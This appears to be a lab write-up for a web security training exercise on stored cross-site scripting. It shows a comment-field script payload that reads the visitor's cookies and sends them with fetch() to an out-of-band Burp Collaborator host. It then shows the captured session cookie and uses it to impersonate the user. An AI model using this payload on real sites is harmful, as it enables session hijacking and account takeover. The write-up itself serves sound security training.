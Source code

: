 # [XSS] Lab: Exploiting cross-site scripting to steal cookies (1)

![Untitled](%5BXSS%5D%20Lab%20Exploiting%20cross-site%20scripting%20to%20steal%2088e7768f477247fdb10b1bc5e2bdee06/Untitled.png)

all other fields are filtered but in the comment filed we can inject <script> tags: 

![Untitled](%5BXSS%5D%20Lab%20Exploiting%20cross-site%20scripting%20to%20steal%2088e7768f477247fdb10b1bc5e2bdee06/Untitled%201.png)

![Untitled](%5BXSS%5D%20Lab%20Exploiting%20cross-site%20scripting%20to%20steal%2088e7768f477247fdb10b1bc5e2bdee06/Untitled%202.png)

![Untitled](%5BXSS%5D%20Lab%20Exploiting%20cross-site%20scripting%20to%20steal%2088e7768f477247fdb10b1bc5e2bdee06/Untitled%203.png)

since we were able to inject <script> tag we can just simple use 

```jsx
<script>
alert(document.cookie);
</script>
```

but since we need to exfiltrate the cookie we can use a variable and burp collaborator. 

![Untitled](%5BXSS%5D%20Lab%20Exploiting%20cross-site%20scripting%20to%20steal%2088e7768f477247fdb10b1bc5e2bdee06/Untitled%204.png)

```jsx
<script>
	var ckie = document.cookie 
  let colab = `tif8tzv0frnz6llnlkaxlj37hynpbfz4.oastify.com/?${encodeURIComponent(ckie)}`;
  // Sending the GET request
  fetch(colab)
</script>
```

![Untitled](%5BXSS%5D%20Lab%20Exploiting%20cross-site%20scripting%20to%20steal%2088e7768f477247fdb10b1bc5e2bdee06/Untitled%205.png)

now that we can see what the request was. 

if we decode the request from URL encoding

```jsx
/?secret=urml14vXd4SlfFb8LXi7k8Vy6YUtJVpV; session=gDc7Q2pfaagxWQr0qoGsajDsR9xSBRO2
```

so now to impersonate that user we simple just need to change our own cookie to there's 

I will use the browser for this but we can also use burp suite repeater for it.

using cookie manager extension: 

![Untitled](%5BXSS%5D%20Lab%20Exploiting%20cross-site%20scripting%20to%20steal%2088e7768f477247fdb10b1bc5e2bdee06/Untitled%206.png)

and then lets just refresh our page:  

![Untitled](%5BXSS%5D%20Lab%20Exploiting%20cross-site%20scripting%20to%20steal%2088e7768f477247fdb10b1bc5e2bdee06/Untitled%207.png)